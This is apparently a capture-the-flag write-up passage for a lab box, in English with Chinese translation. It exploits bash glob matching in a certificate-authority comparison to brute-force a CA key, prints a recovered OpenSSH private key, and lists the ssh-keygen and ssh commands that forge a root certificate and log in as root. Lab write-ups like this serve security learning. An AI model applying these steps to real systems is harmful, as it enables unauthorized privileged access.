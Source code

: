 ```
b='Hel*'

if [[ $a == $b ]]; then
  echo 'a = b'
fi

if [[ $b == $a ]]; then
  echo 'b = a'
fi

This script will print ‘a = b’ But not ‘b = a’ because a being compared to b is true but otherwise is not true. This script compares original CA file to input CA. We can manipulate it by inputing RANDOMLETER+* and check if it’s true, and if it is, jump to next character. So we can crack CA using the vulnerability.
该脚本将打印“a = b” ，但不会打印“b = a”，因为 a 与 b 比较为 true，但其他情况则不为 true。该脚本将原始 CA 文件与输入 CA 进行比较。我们可以通过输入 RANDOMLETER+* 来操作它并检查它是否为真，如果是，则跳转到下一个字符。所以我们可以利用该漏洞来破解CA
```

Then we get unknown.key
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gsV
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```

We’ve signed keypair-cert.pub for user ‘root’ now lets login as root and get root.txt
`ssh-keygen -s "$ca_file" -z "$serial" -I "$username" -V -1w:forever -n "$principals" "$public_key_name"`

`ssh-keygen -s root.cert -z 1 -I root -V -1w:forever -n root_user keypair.pub`

then we just connect the root shell
`ssh -o CertificateFile=keypair-cert.pub -i keypair root@ssg.htb -p 2222`



